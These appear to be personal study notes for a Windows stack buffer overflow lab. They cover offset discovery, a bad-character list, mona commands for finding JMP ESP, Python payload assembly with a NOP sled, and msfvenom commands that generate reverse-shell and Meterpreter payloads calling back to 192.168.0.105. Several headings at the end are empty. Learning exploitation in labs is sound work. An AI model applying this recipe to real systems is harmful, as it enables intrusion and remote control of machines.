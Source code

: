 # Author: Ali Taqi Wajid

<h1 style="text-align:center">Buffer Overflows</h1>

I might make some notes on each of these topics.

# Stack-Based Buffer Overflows
## Windows
- Firstly we need to fuzz the program to find the entry point.
- Then we have to found a rough close number that overflows the buffer.
- Then use pattern-create.rb from metasploit suite to create a pattern.
## Command:
`pattern-create.rb -l lenght`

Then, get the value of `EIP` using a debugger or something and then using pattern-offset.rb, we can get the offset.
## Command:
`pattern-offset.rb -l lenght -q <EIP address value>`
### Example:
`pattern-offset.rb -l 3000 -q 312565`

Now, we need to identify bad characters. To do that, we will have to send the bad chars. A list of badchars is as follows:
```python
badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

Now, once we send the badchars with payload, in immunity, we have to select esp and right click and follow in dump, copy the hex dump and then paste it in a file and then we can use our python script to make it easier for us to identify the bad characters one by one.

Now, we need to find module where ASLR/DEP isn't on. This can either be the .exe itself or a .DLL that is provided with it. We can do that by typing the following command in the immunity debugger:
```
!mona modules
```

Now, we need to find the opcode of `JMP ESP` that will allow us to later jump to our shell code. To do that, we firstly need to locate the nasm_shell. To do that:
```bash
locate nasm_shell
```

Now, we need to open this, we can easily do that using $() if we get a single output:
```bash
$(locate nasm_shell)
```

We can also get an error. I did too. In order to bypass that error, i used the following command:
```bash
/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/nasm_shell.rb
```
Now, we can see that the opcode is :
```
FFE4
```
Now, we need to go back in immunity, and then:
```
!mona find -s "\xff\xe4" -m <module_name>

## Example:
!mona find -s "\xff\xe4" -m essfunc.dll
```
Now, we need to right down the return addresses of the functions that we get from the result.
Consider the following return address:
`0x625014DF`
Now, due to the little endian, we need to write this address as follows for our script:
`\xDF\x14\50\x62`

Now, in immunity, we need to click on `bluish arrow` icon to jump to a certain address and we need to put this address in there. Then once we're at that address, we can press F2 to add a breakpoint there.

-> NOTE:
If you're not hitting the break point, try changing the python exploit script to look something like this:
```python
addr = b'\xDF\x14\x50\x62'
payload = 'A' * offset
payload = payload.encode()
payload += addr
```

We need to generate our shellcode now. To that, we will use msfvenom. The following command will generate a windows reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=9001 EXITFUNC=thread -f py -a x86 -b "\x00"

# -p -> payload
# LHOST = IP on which a nc will be running and the shell will be received on
# LPORT = PORT being listened on
# EXITFUNC -> makes the exploit stable.
# -f -> Filetype (C lang)
# -b -> bad characters
# Note, in -b, you have to add all the badchars that you found in the above stage.
```

-> For Meterpreter Session(Stable):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=9999 -f py -a x86 -b "\x00"\
````

-> Note: We also need to add nop sled ('\x90') between the jump address and the shellcode to ensure safety and add padding. A working nop sled with payload (without shellcode) will look like this:

```python
addr = b'\xDF\x14\x50\x62'
nops = '\x90' * 30
payload = 'A' * offset
payload = payload.encode()
nops = nops.encode()

payload += addr
payload += nops
payload += shell_code
```

-> Reason why we add NOPs: We can note the difference of between the address of ESP and then follow the data in dump and then we can see that between EIP and ESP there exists some bytes, so, within those bytes, we will add our NOPs. We add even more nops so that we can easily know that the shell code will definitely execute.

## Linux:
In Linux, we'll use GDB, the following few commands are very helpful:
```
cyclic <offset>
cyclic -l <4 byte from RSP>
```

# ASLR
# Stack Canaries
# DEP
# Heap-Based Buffer Overflows
# Examples
# Challenges
# Memory Corruption
# Exploit-Exercise Walkthroughs
# Python3 PWNTOOLS
# Other Binexp stuff